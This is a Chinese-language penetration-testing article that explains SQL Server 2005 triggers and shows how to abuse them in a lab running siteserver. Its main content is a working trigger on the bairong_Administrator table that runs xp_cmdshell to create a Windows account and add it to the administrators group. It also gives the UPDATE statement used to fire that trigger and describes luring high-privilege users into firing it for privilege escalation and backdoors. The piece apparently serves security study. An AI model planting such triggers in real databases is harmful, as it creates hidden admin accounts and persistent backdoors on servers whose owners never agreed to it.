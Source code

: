 # SqlServer 2005 Trigger

0x01 什么是触发器：
------------

* * *

触发器对表进行插入、更新、删除的时候会自动执行的特殊存储过程。触发器一般用在check约束更加复杂的约束上面。触发器和普通的存储过程的区别是：触发器是当对某一个表进行操作。诸如：update、insert、delete这些操作的时候，系统会自动调用执行该表上对应的触发器。SQL Server 2005中触发器可以分为两类：DML触发器和DDL触发器，其中DDL触发器它们会影响多种数据定义语言语句而激发，这些语句有create、alter、drop语句。

0x02 问题描述：
----------

* * *

a)通过Sqlserver的触发器，可以利用执行者的权限执行自定义的命令。

b)渗透过程中可能利用的触发器场景：在设置好触发器以后，等待、诱使高权限用户去触发这个触发器，来实现入侵、提权、留后门等目的。

c)Sqlserver的触发器可以分为两类：DML触发器(After insert，After delete，After update和instead of)和DDL触发器（for）。

实验环境： Win2003x86 && SqlServer 2005，默认安装Sqlserver，安装一个开源应用siteserver，并建立test用户，不给予服务器角色，数据库角色仅给予dbo和public权限。并将test库与test用户相互映射。SqlServer的xp_cmdshell已经被恢复。

实验过程： a)使用test用户建立触发器语句：

```
SET ANSI_NULLS ON
GO
SET QUOTED_IDENTIFIER ON
GO                             --这些是 SQL-92 设置语句，使 mssql 遵从 SQL-92 规则。
CREATE TRIGGER test
   ON bairong_Administrator
   AFTER UPDATE           /*建立一个作用于表bairong_Administrator的、
                            类型为After update的、名为test的触发器*/
AS 
BEGIN
    --EXECUTE SP_ADDEXTENDEDPROC 'MASTER.DBO.XP_CMDSHELL','XPLOG70.DLL'
           EXECUTE MASTER.DBO.XP_CMDSHELL 'net user STD 123456 /add'
    EXECUTE MASTER.DBO.XP_CMDSHELL 'net localgroup administrators STD /add'
           /*默认格式begin为开头加上触发后执行的语句,这里是利用储存过程添加系统账号。*/
END
GO

```

![enter image description here](http://drops.javaweb.org/uploads/images/d4433281cfea7b67fb87ed1f4d509403441cee24.jpg)

b)执行UPDATE操作，是触发器执行：

1)使用UPDATE语句来触发触发器：

```
UPDATE bairong_Administrator SET Email='STD@nsfocus.com' WHERE UserName='admin';

```

使用test用户执行：

![enter image description here](http://drops.javaweb.org/uploads/images/d1d34d9a81caad3f1b0e3c71589ce9ba413a58a6.jpg)

![enter image description here](http://drops.javaweb.org/uploads/images/e7141c597a79abc6dfd4df475392c63135679310.jpg)

![enter image description here](http://drops.javaweb.org/uploads/images/29b33b0fbd58bcfc74e6808abd16685db9723bce.jpg)

2)使用sa用户执行：

![enter image description here](http://drops.javaweb.org/uploads/images/fe11e7d9005f2085cfe77f5cb5d5be0a1eaf29a9.jpg)

![enter image description here](http://drops.javaweb.org/uploads/images/b548d0c3e8142ebb6bb405b2bb28aeaad7802a4c.jpg)

![enter image description here](http://drops.javaweb.org/uploads/images/fed287a71bb7d45b752594f90975b7cfc87cab14.jpg)

那么这就产生一个问题了，如何利用被动触发留后门或渗透攻击。